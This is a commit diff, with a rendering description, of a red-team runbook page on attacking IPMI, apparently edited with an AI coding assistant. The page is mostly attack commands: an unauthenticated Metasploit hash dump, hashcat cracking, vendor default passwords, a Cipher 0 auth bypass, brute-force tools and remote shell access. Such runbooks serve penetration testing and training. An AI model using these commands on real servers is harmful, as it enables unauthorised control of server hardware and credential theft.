

Before and after one commit to aelder202/red-team-runbook, an MkDocs documentation site: the page built from docs/information-gathering/service-analysis/ipmi-623.md, in a window 1280 px wide and 1400 px high, scrolled down 312 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; after the commit the page ends 1562 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Review IPMI page: restructure around unauthenticated hash dump, fix placeholders
Co-Authored-By: Claude Sonnet 4.6 <noreply@anthropic.com>

````diff
--- a/docs/information-gathering/service-analysis/ipmi-623.md
+++ b/docs/information-gathering/service-analysis/ipmi-623.md
@@ -1,60 +1,59 @@
+# IPMI (623)
+
 !!! tip "Start here"
-    Dump IPMI hashes unauthenticated with MSF: `use auxiliary/scanner/ipmi/ipmi_dumphashes` — this works against IPMI 2.0 without needing credentials. Crack the resulting hashes offline with hashcat mode 7300. Default creds (`admin:admin`, `ADMIN:ADMIN`, `root:calvin`) are also worth trying immediately.
+    Dump IPMI hashes unauthenticated using Metasploit — this works against IPMI 2.0 without credentials. Crack offline with hashcat mode 7300. Default creds are also worth trying immediately: `admin:admin`, `ADMIN:ADMIN`, `root:calvin`.
+
+---
 
 ## Enumeration
-### Checking for Open IMPI Port
+
 ```bash
-nmap -sU -p 623 --script ipmi-version <target-ip>
+nmap -sU -p 623 --script ipmi-version 10.10.10.10
 ```
 
-## Authentication Attacks
-IPMI commonly uses default or weak credentials (`admin:admin`, `ADMIN:ADMIN`, `root:calvin`, etc.). Attempt manual login:
+---
+
+## Hash Dump (Unauthenticated)
+
 ```bash
-ipmitool -I lanplus -H <target-ip> -U admin -P admin chassis status
+msfconsole
+use auxiliary/scanner/ipmi/ipmi_dumphashes
+set RHOSTS 10.10.10.10
+run
 ```
 
-Alternatively, we can brute-force credentials using Patator:
 ```bash
-patator ipmi_login host=<target-ip> user=FILE0 password=FILE1 0=users.txt 1=passwords.txt -x ignore:fgrep='Unauthorized name'
+hashcat -m 7300 hashes.txt /usr/share/wordlists/rockyou.txt
 ```
 
-or hydra:
+---
+
+## Default Credentials
+
 ```bash
-hydra -L users.txt -P passwords.txt ipmi://<target-ip> -V
+ipmitool -I lanplus -H 10.10.10.10 -U admin -P admin chassis status
 ```
 
-## Exploiting Vulnerabilities
-### Cipher 0 Auth Bypass
-IPMI 2.0 sometimes allows authentication bypass using Cipher 0. Check if Cipher 0 is enabled using the following:
+---
+
+## Cipher 0 Auth Bypass
+
+IPMI 2.0 sometimes accepts authentication with Cipher 0, which allows any password.
+
 ```bash
-ipmitool -I lanplus -C 0 -H <target-ip> -U ADMIN -P randompassword user list
+ipmitool -I lanplus -C 0 -H 10.10.10.10 -U ADMIN -P anything user list
 ```
 
-If enabled, exploit using the following commands:
+---
+
+## Post-Auth Commands
+
 ```bash
-ipmitool -I lanplus -C 0 -H <target-ip> chassis power status
+ipmitool -I lanplus -H 10.10.10.10 -U <user> -P <pass> user list
+ipmitool -I lanplus -H 10.10.10.10 -U <user> -P <pass> sensor
+ipmitool -I lanplus -H 10.10.10.10 -U <user> -P <pass> sel list
+ipmitool -I lanplus -H 10.10.10.10 -U <user> -P <pass> shell
 ```
 
-#### Retrieving Sensitive information with Cipher 0 Enabled
-##### Enumerate Users
-```bash
-ipmitool -I lanplus -H <target-ip> -U <user> -P <password> user list
-```
-
-##### Access Sensor Data:
-```bash
-ipmitool -I lanplus -H <target-ip> -U <user> -P <password> sensor
-```
-
-##### Access System Event Logs:
-```bash
-ipmitool -I lanplus -H <target-ip> -U <user> -P <password> sel list
-```
-
-##### Executing Remote Commands
-If IMPI grants OS-level access:
-```bash
-ipmitool -I lanplus -H <target-ip> -U <user> -P <password> shell
-```
-
-If successful, execute `whoami` or `id` to confirm.
+!!! tip "Real-world"
+    IPMI is common on bare-metal server hardware (Dell iDRAC, HP iLO, Supermicro BMC). The `root:calvin` default is specific to Dell iDRAC and still works on plenty of unpatched systems. Hash dumps are particularly valuable here — even a cracked IPMI hash often reuses credentials on the host OS or other management interfaces.
````
